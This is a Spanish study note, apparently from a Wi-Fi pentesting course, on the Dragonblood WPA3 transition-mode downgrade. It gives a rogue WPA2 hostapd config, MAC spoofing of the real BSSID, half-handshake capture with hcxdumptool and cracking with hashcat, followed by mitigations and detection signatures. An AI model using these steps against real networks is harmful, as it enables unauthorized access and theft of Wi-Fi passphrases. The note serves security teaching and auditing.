

---
tags:
  - Wi-Fi/WPA3
  - Pentesting/Explotacion
Descripción: "El downgrade de Dragonblood paso a paso: AP falso que sólo ofrece WPA2, medio handshake y por qué transition_disable es la contramedida que casi nadie activa"
Fecha de actualización: 2026-08-04
Nota previa: "[[04 - Evil twin y portales hostiles]]"
Nota siguiente: "[[06 - WPA3-SAE - fuerza bruta online y sus límites]]"
Area: "[[Wi-Fi corporativo.base|Wi-Fi corporativo]]"
---
---

<mark style="background: #ADCCFFA6;">El modo transición existe para no dejar tirados a los clientes que sólo hablan WPA2, y al hacerlo devuelve toda la superficie de ataque que WPA3 eliminaba</mark>. Es el fallo más rentable contra WPA3 y, en la práctica, el estado por defecto de casi todos los despliegues.

# El fallo, con nombre y fuente

Esto es el **ataque de downgrade de modo transición** descrito en *Dragonblood*, de Mathy Vanhoef y Eyal Ronen ([IEEE S&P 2020](https://wpa3.mathyvanhoef.com/)). HTB lo explica sin nombrarlo ni citar la investigación, lo que impide seguir el rastro hasta las contramedidas.

La lógica es que en modo transición el AP anuncia **PSK y SAE en la misma lista de AKM**, con la misma contraseña detrás. Un cliente compatible con WPA3 aceptará WPA2 si es lo único que se le ofrece:



<mark style="background: #8000E1A6;">No hace falta romper SAE, ni situarse en medio de nada</mark>: basta con ofrecer la opción peor.

# Ejecución

El reconocimiento ya identificó qué BSSID está en transición (`PSK` y `SAE` juntos en `wlan.rsn.akms.type`, ver [[01 - Reconocimiento de un parque de APs]]). Sobre ese BSSID:

**1. Configurar un AP WPA2 puro con el mismo SSID.**

```config
interface=wlan1
ssid=StarLight-PRT
hw_mode=g
channel=1

wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
auth_algs=1

wpa_passphrase=cualquiercosa
```

La contraseña es irrelevante: el AP falso sólo necesita llegar hasta M2. Que no coincida es precisamente lo que produce el aviso de éxito.

> [!warning]+ `wpa=2` no significa "WPA2" en el sentido intuitivo
> En `hostapd`, `wpa` es un **mapa de bits**: `1` = WPA original, `2` = RSN/WPA2, `3` = **ambos**. HTB usa `wpa=3` en la configuración Enterprise de la sección siguiente justo después de hablar de WPA3, lo que invita a leerlo como "WPA versión 3". <mark style="background: #FF5582A6;">WPA3 no se expresa con `wpa=3`</mark>, sino con `wpa=2` + `wpa_key_mgmt=SAE` + `ieee80211w=2`.

**2. Suplantar el BSSID del AP real** y **3. capturar en paralelo**:

```shell-session
$ sudo ip link set wlan1 down
$ sudo macchanger -m 9C:9A:03:39:BD:7A wlan1
$ sudo ip link set wlan1 up
$ sudo hcxdumptool -i wlan0 -c 1a --bpf=alcance.bpf -w medio.pcapng &
$ sudo hostapd hostapd.conf
```

La señal de éxito es la línea de `hostapd`:

```text
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH f2:7b:12:97:b2:e8
```

Significa que el cliente completó M2 con **su** PSK, que no coincide con la del AP falso. Justo lo buscado.

**4. Convertir y crackear.**

```shell-session
$ hcxpcapngtool -o hash.hc22000 medio.pcapng
$ hashcat -m 22000 hash.hc22000 wordlist.txt -r best64.rule
```

# El detalle que decide si el resultado vale

El hash resultante lleva `*00` como *message pair*: **M1+M2, marcado como `challenge`**.

> [!important]+ Un `challenge` prueba al cliente, no a la red
> Sólo M3 confirma que el AP legítimo comparte ese PMK, y un AP falso jamás puede emitirlo. <mark style="background: #FFB86CA6;">Si el usuario tenía la contraseña mal guardada, se craquea una passphrase que la red real rechaza</mark>. Por eso el resultado hay que verificarlo asociándose de verdad, o contra un par `authorized` obtenido de otra forma. El campo, sus valores y los filtros de `hcxhashtool` para separar unos de otros están en [[02 - El formato 22000 y los message pairs]].

# Por qué el cliente pica (y cuándo no)

El estándar tiene una contramedida específica: el **Transition Disable KDE**. El AP legítimo la entrega tras autenticar, y el cliente borra de su perfil la opción insegura — a partir de entonces rechaza WPA2 para ese SSID.

En `hostapd` es un mapa de bits:

| Bit | Efecto |
| --- | ------ |
| `0x01` | WPA3-Personal: deshabilita WPA2-Personal, sólo SAE |
| `0x02` | SAE-PK: prohíbe SAE sin SAE-PK |
| `0x04` | WPA3-Enterprise: pasa a exigir PMF |
| `0x08` | Enhanced Open: exige OWE en vez de red abierta |

<mark style="background: #FF5582A6;">Su valor por defecto es `0`: el KDE **no se envía**</mark>. Esa es la razón por la que el ataque sigue funcionando ocho años después de publicarse. Comprobar si el cliente tiene `transition_disable` configurado es una pregunta de auditoría concreta, y su ausencia es el hallazgo real — no el downgrade en sí.

# Qué recomendar

| Medida | Efecto |
| ------ | ------ |
| **Retirar el modo transición** | Elimina el ataque por completo. La opción correcta si el parque lo aguanta |
| `transition_disable=0x01` | Protege a los clientes que ya se autenticaron una vez |
| `sae_pwe=1` (hash-to-element) | Cierra el canal lateral de Dragonblood. **Por defecto es `0`, el vulnerable** |
| Passphrase de alta entropía | El downgrade entrega el handshake, no la contraseña |
| WIPS con detección de BSSID duplicado | Un AP falso con MAC clonada es anómalo por definición |

Los dos primeros no son excluyentes y suelen aplicarse en ese orden: activar `transition_disable` mientras se planifica la retirada de WPA2. El contexto de `sae_pwe` y del resto de defensas de WPA3 está en [[04 - WPA3, SAE y OWE]].

> [!info]+ Detección
> El downgrade deja una firma clara: un cliente que venía negociando SAE pasa a PSK. Es exactamente lo que dispara la alerta `CRYPTODROP` de Kismet (*"una red baja su nivel de cifrado"*), y el equivalente en los WIPS comerciales. Sumado a `APSPOOF` por el BSSID duplicado, un parque monitorizado lo ve. El detalle en [[12 - Detección y evasión en entorno corporativo]].
